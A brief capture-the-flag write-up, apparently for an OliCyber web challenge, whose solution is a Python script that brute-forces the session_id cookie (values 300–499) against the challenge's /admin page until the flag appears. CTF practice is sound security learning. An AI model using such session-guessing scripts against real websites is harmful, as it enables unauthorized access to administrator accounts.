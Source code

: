 # A TOO small reminder

## Solution

I chose to bruteforce the session-id of this challenge

```py
import requests
for i in range(300, 500):
    r = requests.get(f"http://too-small-reminder.challs.olicyber.it/admin", cookies={"session_id":f"{i}"})
    if "flag" in r.text.lower():
        print(r.text)
        break
    else:
        print(r.text.replace("\n", ""))
```
